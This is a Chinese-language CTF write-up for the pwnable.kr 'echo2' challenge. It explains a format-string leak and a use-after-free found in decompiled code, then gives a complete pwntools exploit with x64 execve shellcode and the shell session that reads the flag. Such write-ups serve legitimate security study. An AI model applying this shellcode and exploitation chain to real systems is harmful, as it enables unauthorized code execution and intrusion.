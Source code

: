 ```yaml
---
title: pwnable.kr-echo2
date: 2018-03-10 10:41:00
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言 
这道题和上一题主逻辑一样，主要是漏洞不一样了，这道题考察格式化支付串漏洞和堆的释放后重用漏洞。
# 分析
先分析反编译代码
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int *v3; // rsi@1
  _QWORD *v4; // rax@1
  int v6; // [sp+Ch] [bp-24h]@1
  _QWORD v7[4]; // [sp+10h] [bp-20h]@1

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *((_QWORD *)o + 3) = greetings;
  *((_QWORD *)o + 4) = byebye;
  printf("hey, what's your name? : ", 0LL);
  v3 = (int *)v7;
  __isoc99_scanf("%24s", v7);
  v4 = o;
  *(_QWORD *)o = v7[0];
  v4[1] = v7[1];
  v4[2] = v7[2];
  id = v7[0];
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
  v6 = 0;
  do
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ", v3);
        v3 = &v6;
        __isoc99_scanf("%d", &v6);
        getchar();
        if ( (unsigned int)v6 > 3 )
          break;
        ((void (__fastcall *)(const char *, int *))func[(unsigned __int64)(unsigned int)(v6 - 1)])("%d", &v6);
      }
      if ( v6 == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)", &v6);
    v6 = getchar();
  }
  while ( v6 != 121 );
  puts("bye");
  return 0;
}
```
```c
__int64 echo2()
{
  char format; // [sp+0h] [bp-20h]@1

  (*((void (__fastcall **)(_QWORD))o + 3))(o);
  get_input(&format, 32LL);
  printf(&format);
  (*((void (__fastcall **)(_QWORD))o + 4))(o);
  return 0LL;
}
```
```c
__int64 echo3()
{
  char *s; // ST08_8@1

  (*((void (__fastcall **)(_QWORD))o + 3))(o);
  s = (char *)malloc(0x20uLL);
  get_input(s, 32LL);
  puts(s);
  free(s);
  (*((void (__fastcall **)(_QWORD, _QWORD))o + 4))(o, 32LL);
  return 0LL;
}
```
程序这次只实现了`echo2`和`echo3`函数。分析可以发现，`echo2`函数中有格式化字符串漏洞。利用这个漏洞可以读写任意8字节内存。开始想得利用方式是向`v7`变量（就是要输入的名字）写shellcode然后通过该漏洞改写返回地址跳转到该处执行，但是实际上栈地址是64位的想一次写入64位的整数到内存用时太长，特别是在题目平台更长。所以这种方法并不可取。
另一处漏洞需要`echo3`函数配合`main`函数里的一处逻辑缺陷来制造`uaf漏洞`。仔细分析`main`函数发现，如果在选择`4`选项退出时，程序会执行`cleanup`函数，该函数会执行`free(o)`释放掉先前申请的`0x28`大小的堆空间。接下来程序又会询问是否退出，否的话又会进入主逻辑执行。很明显的一处释放后重用。而`echo3`函数中申请了`0x20`大小的堆空间，根据glibc的堆管理策略，这次申请的堆会直接使用上次释放的堆块，这样如果覆盖了第4个8字节就会导致后面执行`(*((void (__fastcall **)(_QWORD))o + 3))(o);`时执行任意覆盖的地址了。利用这个漏洞就能解决`printf`写内存的困难。
整理下利用思路，向`v7`变量覆盖shellcode，使用`prinf`的漏洞leak处栈地址然后计算处`v7`的地址，之后利用uaf漏洞跳转到`v7`执行。下面是exp
```python
from pwn import *

def work(DEBUG):
    context(arch='amd64',os='linux',log_level='info')
    if DEBUG:
        r = process('./echo2')
    else:
        r = remote('pwnable.kr',9011)
        
    
    shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"# 23 bytes
    
    #context.terminal=['gnome-terminal','-x','sh','-c']
    #gdb.attach(proc.pidof(r)[0])
    
    r.recvuntil(' : ')
    r.sendline(shellcode)
    r.recvuntil('> ')
    r.sendline('2')
    r.recvuntil('\n')
    r.sendline('%10$016lx') # get rbp addr
    
    rbp_addr = int(r.recv(16),16)
    v7_addr = rbp_addr-0x20
    
    r.recvuntil('> ')
    r.sendline('4')
    r.recvuntil('(y/n)')
    r.sendline('n\n3\n'+'a'*24+p64(v7_addr))
    
    r.recvuntil('> ')
    r.sendline('3')
    r.interactive()

work(False)
```
```bash
root@1:~/桌面/test$ python 1.py 
[+] Opening connection to pwnable.kr on port 9011: Done
[*] Switching to interactive mode
hello 
aaaaaaaaaaaaaaaaaaaaaaaa0\x1f\xb4>\xfe\x7f
goodbye 

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> sh: 1: 3: not found
$ ls
echo2
flag
log
super.pl
$ cat flag
fun_with_UAF_and_FSB :)
$  
```
另外注意这是linux的x64环境下，`printf`的利用需要考虑前6个参数是寄存器传递的，要计算好。
# 总结
两个漏洞的配合最后拿下shell，很爽。